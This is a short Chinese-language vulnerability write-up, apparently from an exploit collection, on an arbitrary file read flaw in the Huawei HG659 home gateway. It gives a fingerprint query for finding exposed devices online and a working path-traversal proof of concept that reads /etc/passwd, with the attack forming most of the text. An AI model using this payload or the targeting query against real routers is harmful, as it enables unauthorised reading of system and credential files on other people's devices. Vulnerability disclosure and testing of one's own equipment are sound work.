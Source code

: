 # Huawei HG659 lib 任意文件读取漏洞

## 漏洞描述

Huawei HG659 lib 存在任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

```
Huawei HG659
```

## 网络测绘

```
app="HUAWEI-Home-Gateway-HG659"
```

## 漏洞复现

登录页面如下

![](images/202202110951141.png)

POC如下

```plain
/lib///....//....//....//....//....//....//....//....//etc//passwd
```

![](images/202202110951927.png)